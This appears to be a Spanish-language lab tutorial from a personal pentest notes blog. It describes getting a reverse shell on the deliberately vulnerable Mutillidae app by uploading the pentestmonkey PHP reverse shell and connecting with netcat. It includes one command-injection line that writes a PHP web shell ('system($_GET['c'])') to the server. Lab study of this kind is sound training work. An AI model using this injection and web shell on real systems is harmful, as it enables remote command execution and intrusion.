 ```yaml
---
typora-copy-images-to: ../../myassets/img/file_upload/
typora-root-url: ../../
layout: post

---
```


En la siguiente vamos a llevar a cabo un reverse shell mediante la subida de un archivo ejecutable.

Para ello nos vamos a descargar una plantilla de [esta dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la gurardaremos como shell.php

Lo editamos y cambiamos la dirección IP por la que tenemos en el equipo.

![5](/PePs/myassets/img/file_upload/5.png)

Y la subimos a la página, en este caso lo vamos a subir a Mutillidae usando el siguiente comando:

```php
127.0.0.1;echo "<?php system(\$_GET['c']); ?>" > shell.php


```

Si realizamos un listado, podemos ver como se ha subido correctamente

![50](/PePs/myassets/img/file_upload/50.PNG)



![51](/PePs/myassets/img/file_upload/51.PNG)



En un terminal ejecutamos el comando netcat para conectarnos a la máquina atacada.

![4](/PePs/myassets/img/file_upload/4.png)